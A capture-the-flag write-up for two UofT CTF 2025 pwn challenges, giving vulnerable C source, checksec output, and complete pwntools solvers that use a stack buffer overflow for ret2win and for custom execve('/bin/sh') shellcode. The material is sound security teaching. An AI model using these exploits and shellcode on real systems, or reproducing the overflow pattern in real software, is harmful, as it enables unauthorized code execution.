 # UofT CTF 2025

## baby-pwn
### challenge1
```c
void secret()
{
    printf("Congratulations! Here is your flag: ");
    char *argv[] = {"/bin/cat", "flag.txt", NULL};
    char *envp[] = {NULL};
    execve("/bin/cat", argv, envp);
}
void vulnerable_function()
{
    char buffer[64];
    printf("Enter some text: ");
    fgets(buffer, 128, stdin);
    printf("You entered: %s\n", buffer);
}
```
### approach1
* vulnerability
  * There is a buffer overflow.
```C
    char buffer[64];
    fgets(buffer, 128, stdin);
```
* ret2win
  * overwrite the return address into secret function.
  * unfortunately, printf function was called in the secret function, so overwrite the saved rbp with a known writable area.
### solver1
```py
from pwn import *

e = ELF("baby-pwn")
#p = e.process()
p = remote("34.162.142.123", 5000)
#gdb.attach(p)

offset = 72-8
payload = b"A" * offset
payload+= p64(0x00404058)
payload += p64(e.symbols["secret"]+8)

p.sendline(payload)
p.interactive()
```
## baby-pwn2
### challenge2
```c
void vulnerable_function()
{
    char buffer[64];
    printf("Stack address leak: %p\n", buffer);
    printf("Enter some text: ");
    fgets(buffer, 128, stdin);
}
```
checksec
```bash
[~/dc/ctf/uoft/baby-pwn2] >>>checksec baby-pwn-2
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x400000)
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
```
### approach2
* vulnerability
  * buffer overflow again
```c
    char buffer[64];
    fgets(buffer, 128, stdin);
```
* Stack Executable
  * the important thing is stack region is executable.
  * so the solution of this challenge is "ret2shellcode"
* shellcode
  * At first, I tried a shellcode which is available on the pwntools.
  * But something went wrong (I think the injected rbp cause that) so I wrote my own shellcode.
* First try
```py
#addr is a leaked stack address.
sh = f"""
    mov rdi, {hex(addr)} ; -> "/bin/sh"
    mov rsi, {hex(addr+16)} ; -> &["/bin/sh",NULL]
    mov rdx, {hex(addr+376)} ; -> environ
    mov rax, 59 ; execve
    syscall
"""

sh = asm(sh)
payload = b"/bin/sh\x00"
payload+= p64(0)
payload+= p64(addr)
payload+= p64(addr+8)
payload += sh
payload = payload.ljust(offset, b"A")
```
This shellcode was failed.
I thought this shellcode completely implement whole arguments to execute the `/bin/sh`.
After that, I create another shellcode that write whole arguments into .bss and .data.
* Second try
```py
sh = f"""
    mov rax, 0x68732f6e69622f
    mov [{hex(bss)}], rax
    mov rdi, {hex(bss)}
    mov [{hex(data)}], rdi
    mov rsi, {hex(data)}
    mov rdx, 0
    mov rax, 59
    syscall
"""
```
This shellcode successfully executed the shell.
### solver2
```Py
from pwn import *

e = ELF("baby-pwn-2")
p = e.process()
#gdb.attach(p)

context.arch = "amd64"
context.binary = e

#p = remote("34.162.119.16", 5000)

bss = 0x00404048
data = 0x00404020
offset = 72

p.recvuntil(b"Stack address leak: ")
addr = int(p.recvline().strip().decode(), 16)

sh = f"""
    mov rax, 0x68732f6e69622f
    mov [{hex(bss)}], rax
    mov rdi, {hex(bss)}
    mov [{hex(data)}], rdi
    mov rsi, {hex(data)}
    mov rdx, 0
    mov rax, 59
    syscall
"""
#print(shellcraft.sh())
print(len(asm(sh)))
payload = asm(sh).ljust(offset, b"A")
payload += p64(addr)

p.sendline(payload)

p.interactive()
```
